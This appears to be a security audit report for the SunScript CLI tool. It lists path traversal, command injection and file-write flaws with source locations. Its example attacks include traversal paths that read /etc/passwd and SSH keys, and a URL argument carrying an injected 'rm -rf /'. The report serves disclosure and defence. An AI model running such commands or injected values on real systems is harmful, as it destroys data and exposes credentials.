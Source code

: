 # SunScript Security Audit Report

## 🚨 Critical Security Vulnerabilities Identified

### 1. **Path Traversal Vulnerabilities**

**Severity:** CRITICAL  
**Impact:** Arbitrary file read/write, potential system compromise

**Vulnerable Locations:**
- `src/cli/CLI.ts:345` - Direct `fs.access()` on user input
- `src/cli/CLI.ts:355-365` - Unvalidated path construction
- `src/utils/GitHubFetcher.ts:42` - Directory traversal in copyDirectory
- `src/reverse/ReverseCompiler.ts:*` - Multiple unvalidated file operations
- `src/debugging/SunScriptDebugger.ts:*` - Source map file operations

**Example Attack:**
```bash
sunscript debug "../../../../etc/passwd" -t "../../root/.ssh/id_rsa"
sunscript import "https://github.com/attacker/repo" -o "../../../../etc"
```

### 2. **Command Injection Vulnerabilities**

**Severity:** CRITICAL  
**Impact:** Remote code execution

**Vulnerable Locations:**
- `src/utils/GitHubFetcher.ts:36` - Direct shell execution with user input
- `src/validator/PythonValidator.ts:*` - Unvalidated exec() calls

**Example Attack:**
```bash
sunscript import "https://github.com/user/repo; rm -rf /" -o ./output
```

### 3. **Arbitrary File Write Vulnerabilities**

**Severity:** HIGH  
**Impact:** File system manipulation, potential privilege escalation

**Vulnerable Locations:**
- `src/cli/CLI.ts:380` - Genesis file writing without validation
- `src/reverse/ReverseCompiler.ts:232-242` - Unvalidated output directory
- Multiple file generation locations

### 4. **Input Validation Failures**

**Severity:** HIGH  
**Impact:** Data corruption, security bypass

**Vulnerable Locations:**
- GitHub URL parsing without proper validation
- File extension validation bypasses
- AI prompt injection possibilities
